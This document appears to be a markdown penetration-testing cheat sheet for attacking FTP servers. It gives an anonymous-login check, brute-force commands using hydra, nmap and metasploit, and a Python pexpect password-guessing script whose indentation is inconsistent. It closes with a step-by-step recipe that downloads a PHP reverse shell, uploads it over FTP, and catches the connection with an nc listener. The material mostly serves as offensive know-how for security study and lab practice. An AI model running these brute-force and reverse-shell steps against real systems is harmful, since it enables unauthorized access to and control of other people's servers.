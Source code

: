 ### FTP Anonymous Login
> Try `anonymous:anonymous` login
``` bash
ftp IP (with/without credentials)
```

### Brute Force
```bash
hydra -L <user_list> -P <password_list> IP ftp
```

```bash
nmap IP --script ftp-brute --script-args userdb=/root/users -p 21
```

```bash
msfconsole
use auxiliary/scanner/ftp/ftp_login
```

> A custom script to attemp the logins is required if automated dictionary attack do not work, since the server terminates the sessions after 3 login attempts.
```bash
import pexpect
import sys
username=sys.argv[2]
password_dict=sys.argv[3]

# Loading the password dictionary and Striping \n
lines = [line.rstrip('\n') for line in open(password_dict)]

itr = 0
# Iterating over dictionary
for password in lines:
	child = pexpect.spawn ('ftp '+sys.argv[1])
	child.expect ('Name .*: ')
	child.sendline (username)
    print "Trying with password: ",password
	child.expect ('Password:')
	child.sendline (password)
	i = child.expect (['Login successful', 'Login failed'])
	if i==1:
		#print('Login failed')
		child.kill(0)
	elif i==0:
		print "Login Successful for ",password
		print child.before
		break
```

### Reverse Shell over Website

> Download the payload
```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php
```

> Edit some variables in shell.php
```bash
$ip = '<your-local-ip>';
$port = 1234;
```

> Connect to the FTP server and upload the payload.
```bash
ftp <target-ip>
```

>  Upload the payload you downloaded
```bash
ftp> put shell.php
```
> Get a shell
Firstly, you need to open a listener on your local machine.
```bash
nc -lvnp 1234
```

> Then, in a web browser, navigate to "http://target.com/path/to/ftp/shell.php". This should trigger the exploit and establish a connection back to your listener, providing you with a shell on the target system.

